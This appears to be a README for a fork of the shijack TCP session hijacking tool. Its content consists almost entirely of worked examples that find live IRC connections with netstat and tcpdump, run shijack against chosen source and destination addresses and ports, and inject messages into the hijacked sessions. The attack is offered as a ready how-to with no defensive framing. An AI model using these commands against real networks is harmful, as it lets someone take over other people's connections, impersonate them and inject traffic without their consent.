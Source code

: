 This is a fork of shijack connection hijacking tool


Examples:

Local hijacking:
> (root@inch shijack)# netstat -an | grep 6667
> tcp4       0      0  203.43.200.22.2493      198.163.216.60.6667    ESTABLISHED
> (root@inch shijack)# ./shijack-fbsd dc0 203.43.200.22 2493 198.163.216.60 6667
> Waiting for SEQ/ACK  to arrive from the srcip to the dstip.

(To speed things up, try making some traffic between the two, /msg person asdf

> Got packet! SEQ = 0xa1963181 ACK = 0xd4f7175f
> Starting hijack session, Please use ^C to terminate.
> Anything you enter from now on is sent to the hijacked TCP connection.
> privmsg spwny :h0h0h0.
> privmsg moo :you fat cow :(
> ^CClosing connection..
> Done, Exiting.

Subnet hijacking:
> (root@inch shijack)# tcpdump -n -i dc0 | grep 6667
> tcpdump: listening on dc0
> 14:36:23.174889 206.221.255.190.6667 > 203.43.200.114.19970: P 2867450580:2867450719(139) ack 8410247 win 17503 (DF)
> 14:36:23.329866 203.43.200.114.19970 > 206.221.255.190.6667: . ack 139 win 7302 (DF)
> ^C
> 15 packets received by filter
> 0 packets dropped by kernel

> (root@inch shijack)# ./shijack-fbsd dc0 203.43.200.114 19970 206.221.255.190 6667
> Waiting for SEQ/ACK  to arrive from the srcip to the dstip.

(To speed things up, try making some traffic between the two, /msg person asdf

> Got packet! SEQ = 0x8054de ACK = 0xaae9d5a3
> Starting hijack session, Please use ^C to terminate.
> Anything you enter from now on is sent to the hijacked TCP connection.
> privmsg spwny :hi!
> privmsg spwny :lalala.
> quit :hehe!
> ^CClosing connection..
> Done, Exiting.
